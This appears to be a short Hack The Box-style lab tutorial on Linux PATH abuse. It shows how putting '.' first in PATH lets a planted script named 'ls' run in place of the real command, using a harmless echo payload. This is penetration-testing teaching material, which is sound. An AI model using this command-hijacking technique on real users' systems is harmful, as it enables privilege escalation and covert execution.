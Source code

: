 Adding `.` (the current directory) to a user's `PATH` lets us run executables in the current directory _just by typing their name_, without needing to specify `./`.

If we can modify the user's `PATH`, we could place a malicious script with the same name as a common command (like `ls`). This way, typing `ls` would run **our script** instead of the real `/bin/ls`.

#### Example

Check the original `PATH`:

```
htb_student@NIX02:~$ echo $PATH 
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
Add `.` to the beginning of the `PATH`:
```
htb_student@NIX02:~$ PATH=.:$PATH
htb_student@NIX02:~$ export PATH
htb_student@NIX02:~$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
Create a fake `ls` command:
```
htb_student@NIX02:~$ echo 'echo "PATH ABUSE!!"' > ls
htb_student@NIX02:~$ chmod +x ls
```
Now, running `ls` executes your script:
```
htb_student@NIX02:~$ ls
PATH ABUSE!!
```